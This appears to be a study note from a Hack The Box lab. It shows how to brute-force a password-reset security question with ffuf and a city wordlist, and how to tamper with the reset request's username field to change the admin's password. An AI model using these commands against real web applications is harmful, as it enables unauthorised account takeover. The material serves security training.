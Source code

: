 ```yaml
---
title: b-Vulnerable Password Reset
draft: false
tags:
  - ffuf
---
```

## Guessable Password Reset Questions

Often, web applications authenticate users who have lost their passwords by requesting that they answer one or multiple security questions.

e.g

- "`What is your mother's maiden name?`"
- "`What city were you born in?`"

For instance, assuming a web application uses a security question like `What city were you born in?`, we can attempt to bruteforce the answer to this question.

[This](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

Since the CSV file contains the city name in the first field, we can create our wordlist containing only the city name on each line using the following command:

```shell-session
jadu101@htb[/htb]$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt

jadu101@htb[/htb]$ wc -l city_wordlist.txt 

26468 city_wordlist.txt
```

Now let's use `ffuf` to bruteforce security response:

```shell-session
jadu101@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

After obtaining the security response, we can reset the admin user's password and entirely take over the account.

For instance, if we knew that our target user was from Germany, we could create a wordlist containing only German cities, reducing the number to about a thousand cities:

```shell-session
jadu101@htb[/htb]$ cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt

jadu101@htb[/htb]$ wc -l german_cities.txt 

1117 german_cities.txt
```


## Manipulate the Reset Request

Let's say password reset request comes with a username as such:

```http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

We can manipulate the request and change the admin user's password instead:

```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```
